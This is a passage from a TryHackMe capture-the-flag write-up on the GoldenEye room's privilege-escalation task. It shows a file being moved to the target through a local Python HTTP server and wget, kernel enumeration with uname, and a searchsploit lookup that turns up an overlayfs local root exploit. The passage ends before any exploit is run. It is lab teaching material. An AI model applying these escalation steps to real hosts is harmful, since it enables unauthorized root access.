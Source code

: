 ## Task 4: Privilege Escalation

> **Instructions**
> Now that you have enumerated enough to get an administrative moodle login and gain a reverse shell, its time to priv esc.

There is another option in this part → Enumerate automatically following these steps:

Download the [linuxprivchecker](https://gist.github.com/sh1n0b1/e2e1a5f63fbec3706123) to enumerate installed development tools.

To get the file onto the machine, you will need to wget your local machine as the VM will not be able to wget files on the internet. Follow the steps to get a file onto your VM:

- Download the linuxprivchecker file locally
- Navigate to the file on your file system
- Do: **python -m SimpleHTTPServer 1337** (leave this running)
- On the VM you can now do: wget /.py

But in this write-up, I will perform the manual way:

### What is the kernel version?

```

<ditor/tinymce/tiny_mce/3.4.9/plugins/spellchecker$ uname -a
uname -a
Linux ubuntu 3.13.0-32-generic #57-Ubuntu SMP Tue Jul 15 03:51:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux

```

<p class="message">
✅ The answer: <strong>3.13.0-32-generic</strong>

</p>

### Skip the questions _No answer needed_ → Perform the exploit process:

Search for the **Exploit Path**:

```

┌──(kali㉿kali)-[~/TryHackMe/GoldenEye]
└─$ searchsploit "kernel 3.13 overlay"

---

Exploit Title | Path

---

Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/1 | linux/local/37292.c
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/1 | linux/local/37293.txt

---

Shellcodes: No Results

```
